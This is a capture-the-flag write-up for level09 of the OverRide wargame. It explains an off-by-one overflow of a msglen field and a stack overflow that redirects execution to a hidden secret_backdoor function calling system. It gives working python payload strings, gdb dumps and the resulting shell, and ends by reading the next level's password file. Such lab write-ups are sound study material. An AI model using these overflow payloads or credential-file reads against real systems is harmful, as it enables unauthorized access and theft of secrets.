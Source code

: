 # level09

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level09@OverRide:~$ checksec --file ./level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./level09
```

From our analysis of the program, here are the different steps performed :

- The `main` function calls `handle_msg` which declares a structure containing a 40 bytes buffer we will call `username`, another one of 140 bytes, `msg`, and an integer, `msglen`, set to 140.

- The structure address is sent to `set_username` which fills an intermediate buffer of 128 bytes thanks to a `fgets` call on the standard input, then uses a `for` loop that copies the 41 characters of the intermediate buffer to `username`. A programming error is present here and opens a vulnerability. Indeed, the `username` variable is an array of 40 characters but the `for` loop goes through 41 characters, allowing us to overwrite one byte of the next structure's variable `msglen`.

- The next function called `set_msg` is similar to `set_username` : a buffer of 1024 bytes is filled with `fgets`, then copied to `msg` via `strncpy` with the `msglen` variable as its size parameter. Since we know we can overwrite one byte of `msglen` value, we will try to reach the return address pointer of `handle_msg` by copying enough bytes.

According to `checksec` output, we can't execute code from the stack, hopefully a hidden function `secret_backdoor` has been declared.

```gdb
gdb-peda$ pd secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   rbp
   0x000055555555488d <+1>:     mov    rbp,rsp
   0x0000555555554890 <+4>:     add    rsp,0xffffffffffffff80
   0x0000555555554894 <+8>:     mov    rax,QWORD PTR [rip+0x20171d]
   0x000055555555489b <+15>:    mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:    mov    rdx,rax
   0x00005555555548a1 <+21>:    lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:    mov    esi,0x80
   0x00005555555548aa <+30>:    mov    rdi,rax
   0x00005555555548ad <+33>:    call   0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:    lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:    mov    rdi,rax
   0x00005555555548b9 <+45>:    call   0x555555554740 <system@plt>
   0x00005555555548be <+50>:    leave
   0x00005555555548bf <+51>:    ret
End of assembler dump.
```

This function calls `fgets` to fill a buffer of 128 characters from the standard input, then uses it as a command sent to `system`.

## Exploit

Since the binary has been compiled in 64-bit, we need to find the right offset to overwrite the content of the stack pointer (not the EIP) in order to make `handle_msg` jump to `secret_backdoor` instead of returning to `main`.

To do so, We prepare the following string : 40 characters + the bigger one-byte value (0xff or 255) to overwrite `msglen` value and make `strncpy` go as far as we can + 86 padding characters to reach a total of 127 (first `fgets`) + a string of 256 characters generated via this [buffer overflow string generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) that supports 64-bit registers.

```console
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "A" * 86 + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"' > /tmp/level09
```

```gdb
gdb-peda$ r < /tmp/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xd ('\r')
RBX: 0x0
RCX: 0x7ffff7b01f90 (<write+16>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a90 --> 0x0
RSI: 0x7ffff7ff7000 (">>: >: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
RDI: 0xffffffff
RBP: 0x6741356741346741 ('Ag4Ag5Ag')
RSP: 0x7fffffffe5c8 ("6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4")
RIP: 0x555555554931 (<handle_msg+113>:	ret)
R8 : 0x7ffff7ff7004 (">: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
R9 : 0xc ('\x0c')
R10: 0x21 ('!')
R11: 0x246
R12: 0x555555554790 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe6b0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:	lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:	call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:	leave
=> 0x555555554931 <handle_msg+113>:	ret
   0x555555554932 <set_msg>:	push   rbp
   0x555555554933 <set_msg+1>:	mov    rbp,rsp
   0x555555554936 <set_msg+4>:	sub    rsp,0x410
   0x55555555493d <set_msg+11>:	mov    QWORD PTR [rbp-0x408],rdi
```

We provide the RBP address `0x6741356741346741` to our tool, then add 8 to the result to reach the RSP content offset, 200.

Now, we get the `secret_backdoor` address with gdb. The program must have been started inside the debugger to get the right address after dynamic relocation.

```gdb
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

From here we have everything we need to perform the exploit. Let's generate our final string, composed of three parts :

- In first, we copy the same string as the previous one we have used to fill the first `fgets` call and overwrite `msglen` value, but when may change this value to match exactly the size we need, 200 + 8 bytes (for the address itself), so 0xd0 in hexadecimal.

- Then, 200 characters to reach the offset, the `secret_backdoor` address which will overwrite the content of RSP, and the needed padding characters to fill the second `fgets` buffer of 1024, here 815.

- Finally, if everything works as expected, we will jump to `secret_backdoor` which uses a third `fgets` to get the command to send to `system`, so we just add `/bin/sh`. Here we go !

```console
python -c 'print "A" * 40 + "\xd0" + "A"*86 + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "A" * 815 + "/bin/sh"' > /tmp/level09
level09@OverRide:~$ cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```